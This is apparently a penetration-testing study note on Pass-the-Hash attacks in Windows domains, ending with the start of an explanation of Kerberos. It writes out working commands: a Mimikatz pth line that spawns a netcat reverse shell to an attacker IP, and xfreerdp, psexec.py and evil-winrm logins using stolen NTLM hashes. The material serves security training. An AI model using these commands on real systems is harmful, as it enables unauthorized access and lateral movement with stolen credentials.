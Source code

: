 ## Pass-the-Hash
As a result of extracting credentials from a host where we have attained administrative privileges (by using [[Mimikatz]], or similar tools), we might get clear-text passwords or hashes that can be easily cracked. However, if we aren't lucky enough, we will end up with non-cracked NTLM password hashes.
Now, even though we cannot use the original password for authentication, the NTLM challenge sent during authentication can be responded to just by knowing the password hash. Instead of having to crack NTLM hashes, if the Windows domain **is configured to use NTLM authentication**, we can **Pass-the-Hash** (PtH) and authenticate successfully.

---


Be it that we got the hashes from [[Mimikatz#Extracting NTLM hashes from local SAM|local SAM]] or [[Mimikatz#Extracting NTLM hashes from LSASS memory|LSASS memory]], we can now use the extracted hashes to perform a PtH attack by using Mimikatz to inject an access token for the victim user on a reverse shell (or any other command)
```mimikatz
token::revert
sekurlsa::pth /user:john.smith /domain:DOMAIN /ntlm:6a6a6a6a6a6a6a6a /run:"c:\tools\nc64.exe -e cmd.exe IP 1337"
```
Here, we used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work.
The rest would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can gain further control.
Also, similar to the `runas` command, if we run a command like `whoami` it will still list us as the user, but any command we run will actually use the credentials we injected.

---


Now, if we have access to a linux machine, several tool have built-in support to perform a PtH using different protocols. Depending on which services are available to us, we can do the following:
### Connect to [[RDP]]
```sh
xfreerdp /v:TARGET_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```
### Connect via psexec
```sh
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@TARGET_IP
```
Note, that only the linux version of psexec supports PtH
### Connect to [[Evil-WinRM|WinRM]]
```sh
evil-winrm -i TARGET_IP -u MyUser -H NTLM_HASH
```

## [[Active Directory#Kerberos|Kerberos]] Authentication
The other method of authentication for Windows networks is Kerberos, it works by doing the following:
1. 
The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center** (KDC), a service usually installed on the DC in charge of creating Kerberos tickets on the network.
The KDC will then create and send back a **Ticket Granting Ticket** (TGT), allowing the user to request tickets to access specific services without passing their credentials to the services themselves. Along with the TGT, a **Session Key** is given to the user, which they will need to generate the requests that follow.
Note that the TGT is encrypted using the **krbtgt** account's password hash, so the user can't access its contents. It is **important** to know that the encrypted TGT includes a copy of the Session key as part of its contents, and the KDC has no need to store the Session Key as it can recover a copy by decrypting the TGT if needed.